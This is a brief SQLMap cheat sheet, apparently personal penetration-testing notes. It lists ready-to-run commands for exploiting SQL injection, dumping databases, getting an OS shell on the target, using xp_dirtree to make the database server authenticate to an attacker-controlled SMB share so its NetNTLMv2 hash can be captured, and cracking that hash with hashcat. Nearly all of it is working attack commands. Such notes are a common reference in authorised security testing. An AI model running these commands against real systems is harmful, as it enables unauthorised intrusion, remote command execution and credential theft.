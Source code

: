 # SQLMap

### 1) Automate injection on post/get request stored within a .txt file

    sqlmap -r sqli.txt --batch


### 2) Enumerate dbs

    sqlmap -r sqli.txt --batch --dbs


### 3) OS Shell

    sqlmap -u "http://10.10.200.100/?src=*&dst=" --os-shell --batch


### 4) Relaying through SQLmap

    sqlmap -u "http://10.10.200.100/?src=*&dst=" --batch --sql-query="EXEC master.dbo.xp_dirtree '\\\\10.10.10.11\\share'"


### 5) NetNTLMv2 - responder hash crack

    hashcat -m 5600 db01.hash /usr/share/wordlists/rockyou.txt --force
